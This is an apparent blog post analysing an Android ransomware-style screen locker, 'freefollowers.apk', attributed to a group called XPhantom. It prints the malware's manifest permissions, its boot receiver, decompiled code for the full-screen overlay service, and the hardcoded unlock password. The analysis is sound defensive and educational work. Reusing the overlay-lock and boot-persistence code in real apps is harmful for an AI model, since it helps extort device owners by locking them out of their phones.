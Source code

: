 ```yaml
---
layout: post
title: Android Malware Analysis Series - freefollwers.apk
---
```


**File Information:** [https://twitter.com/malwrhunterteam/status/1534958788096233472?s=20&t=OAEC5DdvJDvRp6SRsaaUaw](https://twitter.com/malwrhunterteam/status/1534958788096233472?s=20&t=OAEC5DdvJDvRp6SRsaaUaw)

**Sample Source:** [https://bazaar.abuse.ch/sample/5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e/#intel](https://bazaar.abuse.ch/sample/5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e/#intel)

**SHA256 Hash:** 
5251a356421340a45c8dc6d431ef8a8cbca4078a0305a87f4fbd552e9fc0793e

## Introduction

The freefollowers.apk appears to targeting people who use social media and are looking to up the amount of followers for their social media accounts. Specifically targeting users of android. I am not entirely sure the delivery method this malware uses, but I found this sample APK via a Google search using the SHA256 hash. It appears that this piece of android malware was posted by Malware Hunters twitter on June 9th of 2022. Though I have found a variant on Virus Total [here](https://www.virustotal.com/gui/file/73fae61d9550186c9b68c0e3a0589f1faaa87f6a9dc8290f98aaf55db3a58350/detection). In the URL it identifies the malware as Android Locker. 

![Untitled](/assets/androidMalwarept101.png)

This malware “*screenlocks*” the device by creating an overlay to instruct the user to send money to the address provided in the screenshot. Once the user does so the user can unlock the device with a password provided by the malware authors. 

# Decompilation and Analysis

Usually I would start a security audit of an Android APK with first doing a bit of automated analysis along with some manual code review of the underlying APK structure. Gaining first an idea of what permissions, activities, and classes are being called in the manifest file. Then moving on from there.

I deployed an Android emulated device specific to this test in Android Studio. The manifest file explicitly calls out Android API 23 Marshmallow. I install the malware via adb then did a reboot of the emulated device to get the screenshot below.

![Untitled](/assets/androidMalwarept102.png)

As you can tell the actors of this malware go by an anonymous group XPhantom. 

![Untitled](/assets/androidMalwarept103.png)

## Manifest.xml file

Digging into the freefollowers.apk I observed one activity, one service, and one receiver  in the Manifest.xml file. We can also see multiple permissions such as external_storage, read_contacts, read_sms and receive_boot_completed.

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" android:installLocation="internalOnly" android:compileSdkVersion="23" android:compileSdkVersionCodename="6.0-2438415" package="com.XPhantom.id" platformBuildVersionCode="23" platformBuildVersionName="6.0-2438415">
    <uses-sdk android:minSdkVersion="8" android:targetSdkVersion="21"/>
    <uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.SET_WALLPAPER"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <uses-permission android:name="android.permission.READ_SMS"/>
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.REQUEST_INSTALL_PACKAGE"/>
    <uses-permission android:name="android.permission.CAMERA"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@drawable/ic_launcher" android:debuggable="true">
        <activity android:label="@string/app_name" android:name="com.XPhantom.p000id.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.INFO"/>
            </intent-filter>
        </activity>
        <service android:name="com.XPhantom.p000id.MyService" android:enabled="true"/>
        <receiver android:name="com.XPhantom.p000id.BootReceiver" android:permission="android.permission.RECEIVE_BOOT_COMPLETED" android:enabled="true">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
                <action android:name="android.intent.action.QUICKBOOT_POWERON"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

## MainActivity

In the MainActivity java code below we can see that the malware starts the service ***********MyService.*********** 

```java
package com.XPhantom.p000id;

import adrt.ADRTLogCatReader;
import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;

/* renamed from: com.XPhantom.id.MainActivity */
/* loaded from: classes.dex */
public class MainActivity extends Activity {
    @Override // android.app.Activity
    public void onCreate(Bundle bundle) {
        ADRTLogCatReader.onContext(this, "com.aide.ui");
        super.onCreate(bundle);
        try {
            startService(new Intent(this, Class.forName("com.XPhantom.id.MyService")));
            finish();
        } catch (ClassNotFoundException e) {
            throw new NoClassDefFoundError(e.getMessage());
        }
    }
}
```

## MyService Activity

After overviewing the classes baked into this piece of malware *MyService* appears to be the main functionality being called from *MainActivity*. 

On line 23 of the MyService class there is a reference to `LayoutInflater` this is used in this malware sample to overlay a View onto the device. Disabling the user from using their phone and even with a restart will continue the LayoutInflater view.

```java
public class MyService extends Service {
    ImageView chatHead;
    Context context;

    /* renamed from: e1 */
    EditText f0e1;
    ViewGroup myView;
    WindowManager windowManager;

    @Override // android.app.Service
    public void onCreate() {
        ADRTLogCatReader.onContext(this, "com.aide.ui");
        this.windowManager = (WindowManager) getSystemService("window");
        this.myView = (ViewGroup) ((LayoutInflater) getSystemService("layout_inflater")).inflate(C0000R.layout.main, (ViewGroup) null);
        this.chatHead = new ImageView(this);
        this.chatHead.setImageResource(C0000R.drawable.ic_launcher);
        this.f0e1 = (EditText) this.myView.findViewById(C0000R.C0001id.mainEditText1);
        ((Button) this.myView.findViewById(C0000R.C0001id.mainButton1)).setOnClickListener(new View.OnClickListener(this) { // from class: com.XPhantom.id.MyService.100000000
            private final MyService this$0;
```

[https://developer.android.com/reference/android/view/LayoutInflater](https://developer.android.com/reference/android/view/LayoutInflater)

Secondly, the link above to the developer reference makes note of an XML file. Which appears to loading the View defined by either the developer or in our case the malware author. If we take a look at the strings.xml file we can observe the same resources being applied to the LayoutInflater View via the C000R class.

![Untitled](/assets/androidMalwarept104.png)

![Untitled](/assets/androidMalwarept105.png)

Thirdly, we can see in the following java code snippet that the malware has a hardcoded string. The hardcoded string allows for the LayoutInflater that overlays on the device to be “removed”. Once this string has been submitted into the getText field which appears to be the password the malware stops the overlay and the user can begin using the device again. 

```java
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                if (this.this$0.f0e1.getText().toString().equals("Abdullah@")) {
                    this.this$0.windowManager.removeView(this.this$0.myView);
                    try {
                        this.this$0.context.startService(new Intent(this.this$0.context, Class.forName("com.XPhantom.id.MyService")));
                        return;
                    } catch (ClassNotFoundException e) {
                        throw new NoClassDefFoundError(e.getMessage());
                    }
                }
```

Thanks for reading, and look out for future posts analyzing malware samples in 2023.

